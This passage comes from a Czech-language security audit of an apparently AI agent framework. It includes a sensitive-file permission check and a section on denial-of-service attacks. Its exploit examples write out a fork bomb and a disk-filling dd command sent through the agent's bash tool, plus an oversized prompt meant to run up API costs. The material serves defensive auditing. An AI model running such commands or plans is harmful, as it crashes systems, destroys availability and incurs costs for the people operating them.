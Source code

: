 ```python
                    f"Reading sensitive file requires explicit permission: {path}"
                )
        
        return safe_path.read_text()
    
    def _is_sensitive(self, path: Path) -> bool:
        import fnmatch
        return any(fnmatch.fnmatch(str(path), pattern) 
                  for pattern in self.SENSITIVE_FILES)
```

**Risk Rating:** 🟠 **HIGH** (CVSS 7.5)  
**Likelihood:** High  
**Impact:** Financial loss + credential theft

---

### ÚTOK 5: Denial of Service → Resource Exhaustion

**Útočný Vektor:**  
Útočník může vyvolat nekonečnou smyčku nebo resource exhaustion přes bash příkazy.

**Exploit:**

```python
plan = [
    {
        "tool_name": "tool_bash",
        "method_name": "execute_command",
        "arguments": {
            "command": ":(){ :|:& };:"  # Fork bomb
        }
    }
]

# NEBO:
plan = [
    {
        "tool_name": "tool_bash",
        "method_name": "execute_command",
        "arguments": {
            "command": "dd if=/dev/zero of=/tmp/bigfile bs=1G count=1000"  # Zaplní disk
        }
    }
]

# NEBO:
plan = [
    {
        "tool_name": "tool_llm",
        "method_name": "execute",
        "arguments": {
            "user_input": "A" * 1000000  # Gigantický prompt → drahý API call
        }
    }
]
```
